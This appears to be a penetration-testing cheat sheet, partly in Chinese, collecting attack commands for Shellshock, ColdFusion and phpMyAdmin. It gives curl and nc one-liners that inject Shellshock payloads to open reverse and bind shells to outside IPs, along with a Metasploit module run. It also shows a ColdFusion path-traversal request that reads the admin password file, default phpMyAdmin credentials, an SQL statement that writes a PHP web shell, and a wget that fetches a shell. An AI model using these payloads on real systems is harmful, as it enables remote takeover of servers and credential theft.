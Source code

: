**exploit**

```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.41/80 0>&1' http://10.10.10.56/cgi-bin/user.sh

#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8

#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80

#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi

#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
```


### Cold Fusion
参考
http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

```
example.com/CFIDE/adminapi/base.cfc?wsdl    //查看版本

use exploit/windows/http/coldfusion_fckeditor //fckeditor  8.0.1 利用

#LFI获取password
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

### Phpmyadmin

```
#默认账号,密码空
root:
pma:

#phpmyadmin 执行sql上传shell
http://192.168.3.2/phpmyadmin/
//Run SQL query/queries on server "localhost":

SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"
# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"

#linux download shell
?cmd=wget%20192.168.1.102/shell.php
```
